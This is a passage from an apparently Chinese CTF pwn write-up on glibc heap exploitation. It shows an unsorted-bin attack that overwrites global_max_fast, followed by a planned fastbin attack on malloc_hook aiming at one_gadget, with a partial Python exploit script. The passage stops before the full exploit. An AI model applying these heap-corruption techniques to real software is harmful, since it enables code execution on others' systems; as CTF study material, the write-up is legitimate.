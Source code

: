 构造chunk_60 大小为0x61，包含chunk_a0。然后申请0x61(malloc(x59))

![1sM7Mx](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/1sM7Mx.png)

覆盖Bk为global_max_fast-0x10 （截图错了）

![FqETSq](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/FqETSq.png)

unsortbin attack成功修改**global_max_fast**

![JySmO5](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/JySmO5.png)

代码如下

```python
global_max_fast=3790920+libc

#getshell
add(0x18,"A"*0x18)#6
add(0x18,"B"*0x18)#7
add(0x18,"C"*0x18)#8
add(0x18,"D"*0x18)#9
add(0x18,"D"*0x18)#10

#将两个chunk放入unsortbin链
delete(7)
delete(5)

#将前面的堆加长，使得两个堆形成overlap
edit(6,"O"*0x18+"\x61") #1's size->0x81 
#申请一块和unsortbin链首相同大小的chunk，覆盖fd=0，bk=global_max_fast-0x10
add(0x58,p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0)+p64(global_max_fast-0x10))
add(21,"AAAA") #触发unsortbin
```

但是此时无法申请内存，需要修复unsortbin。不过我一开始想偷懒，就考虑直接用fastbin attack，修改malloc_hook。

**覆盖malloc_hook**

我的解决方案是事先free大量的fastbin chunk，留给后面fastbin attack用。

![pyGdm0](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/pyGdm0.png)



修改fastbin指向malloc_hook，不过这里还得改。。。要切到0x70

![GRteoJ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/GRteoJ.png)

整个逻辑到现在其实挺复杂了，free 0x61（伪造的chunk）会有个fastbin的next size检测，这个要在一开始就伪造好。（图中选中区域）

![2Ew20G](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/2Ew20G.png)

![LiwnwS](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/LiwnwS.png)

实现到跳转到**one_gadget**,不过全部one_gadget失效.目前为止的EXP如下

